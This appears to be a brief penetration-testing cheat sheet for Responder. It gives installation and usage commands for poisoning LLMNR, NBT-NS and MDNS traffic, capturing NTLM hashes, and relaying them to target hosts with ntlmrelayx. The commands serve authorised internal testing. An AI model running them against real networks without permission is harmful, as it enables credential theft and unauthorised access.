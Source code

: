 # Responder

Responder is an LLMNR, NBT-NS and MDNS poisoner. Easy footholds on nearly every internal pentest.

## Installation 

Install Responder using git: 

```git clone https://github.com/lgandx/Responder```

## Usage

Basic Usage \
```./Responder.py -I [INTERFACE] -rdwP```

Relay hashes obtained \
```./Responder.py -I [INTERFACE] -rdw``` \
```python ntlmrelayx.py -tf targets.txt```

We can also save the hashes being relayed so they aren't yeeted into the void \
```python ntlmrelay.py -tf targets.txt -of NTLMOutput.txt```

## References
* [Laurent Gaiffé Blog](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)
* [Practical guide to NTLM Relaying](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
